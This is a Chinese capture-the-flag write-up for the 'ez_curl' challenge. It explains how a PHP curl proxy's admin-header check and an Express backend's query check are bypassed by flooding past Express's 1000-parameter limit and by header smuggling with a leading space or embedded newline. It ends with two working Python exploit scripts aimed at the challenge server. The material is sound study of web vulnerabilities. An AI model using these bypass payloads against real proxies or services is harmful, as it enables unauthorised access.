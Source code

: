 # [攻防世界ez_curl](https://www.cnblogs.com/hackerone/p/17536668.html)

点进去就是一个代码审计：
```php
<?php
highlight_file(__FILE__);
$url = 'http://back-end:3000/flag?';
$input = file_get_contents('php://input');
$headers = (array)json_decode($input)->headers;
for($i = 0; $i < count($headers); $i++){
    $offset = stripos($headers[$i], ':');
    $key = substr($headers[$i], 0, $offset);
    $value = substr($headers[$i], $offset + 1);
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){
        die('try hard');
    }
}
$params = (array)json_decode($input)->params;
$url .= http_build_query($params);
$url .= '&admin=false';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
curl_setopt($ch, CURLOPT_NOBODY, FALSE);
$result = curl_exec($ch);
curl_close($ch);
echo $result;
```

题目给的附件是一个app.js:



```js
const express = require('express');

const app = express();

const port = 3000;
const flag = process.env.flag;

app.get('/flag', (req, res) => {
    if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
        res.send(flag);
    }else{
        res.send('try hard');
    }
});

app.listen({ port: port , host: '0.0.0.0'});
```


先看一下php代码，有一个file_get_contents('php://input')，这是一个文件包含，当Content-Type为application/x-www-form-urlencoded且提交方法是POST方法时，$_POST数据与php://input数据是一致的。

然后会`$headers = (array)json_decode($input)->headers把post过去的数据解码成数组，很明显post的内容就是http请求里的headers，写post数据的时候要写成json的形式。像这样：`

```JSON
{"headers": ["admin:true"]}
```

看一下nodejs的判断条件：

```PHP
 if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
       res.send(flag);
   }

```
要求admin传参不包含'false'并且headers请求头里的admin字段包含'true'，由于express的parameterLimit默认为1000，即参数最大限制为1000，写脚本请求加上1000个参数就能成功把拼接的&admin=flase挤掉，

后一个条件，要求headers里的admin字段包含'true'就行了，可以是'xtrue'，这里根据RFC 7230(HTTP/1.1协议的定义)的规定，规定了 field-name 是由一个或多个打印的 ASCII 字符组成，不包括分隔符，包括空格。因此，如果一个 field-name 的第一个字符是空格，那么这个 HTTP header 是非法的，应该被服务器或客户端忽略或拒绝，然而，Node.js 在处理这类情况时通常是宽容的。

最终的post的内容：
```JSON
{"headers": ["admin: x", " true: y"]}
```

这样写可以绕过php代码中的die("try hard")

该headers在nodejs解析的时候，会得到如下数据：
```JSON
{
  "admin": "x true y"
}

```
经nodejs解析后admin字段包含‘true’，满足条件。

附上大佬脚本：

脚本1：header换行绕过

```PYTHON
import json
import requests
from abc import ABC

url = "http://61.147.171.105:62546/"


datas = {"headers": ["xx:xx\nadmin: true", "Content-Type: application/json"],
         "params": {"admin": "true"}}

for i in range(1020):
    datas["params"]["x" + str(i)] = i
headers = {
    "Content-Type": "application/json"
}
json1 = json.dumps(datas)
print(json1)
resp = requests.post(url, headers=headers, data=json1)
print(resp.content)
```
![复制代码](https://common.cnblogs.com/images/copycode.gif)

脚本2：headers中字段开头空格

```python
import json
import requests
from abc import ABC


url = "http://61.147.171.105:49903/"
datas = {"headers": ["admin:a"," true:a", "Content-Type: application/json"],

         "params": {"admin": "true"}}

for i in range(1020):

    datas["params"]["x" + str(i)] = i

headers = {
    "Content-Type": "application/json"
}

json1 = json.dumps(datas)
print(json1)
resp = requests.post(url, headers=headers, data=json1)
print(resp.content)
```